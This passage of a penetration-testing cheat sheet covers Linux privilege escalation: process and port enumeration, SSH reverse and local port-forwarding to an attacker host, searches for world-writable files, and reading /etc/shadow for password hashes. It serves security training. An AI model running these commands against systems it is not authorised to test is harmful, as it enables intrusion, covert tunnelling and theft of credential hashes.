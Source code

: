 ## Running processes & Service Exploits

**Enumerate running process**

```bash
ps aux
ps aux | grep root
```

**Enumerate local ports**

```bash
netstat -ano
```

```bash
ss -anp
```

If the ports only allow internal access, use port forwarding techniques.
Port forwarding from victim machine (SSH server listen on attacker):

```bash
ssh -f -N -R 3306:127.0.0.1:3306 kali@192.168.49.10
```

Port forwarding from attacker machine (SSH server listen on victim):

```bash
ssh -f -N -L 3306:127.0.0.1:3306 user@192.168.10.10
```

## Weak File Permissions

List world writable files on the system.

```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
find / -perm -2 -type f 2>/dev/null
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### /etc/shadow

!!! info
The /etc/shadow file contains user password hashes

Get /etc/shadow permissions

```bash
ls -l /etc/shadow
```

#### Readable /etc/shadow

```bash
cat /etc/shadow
```
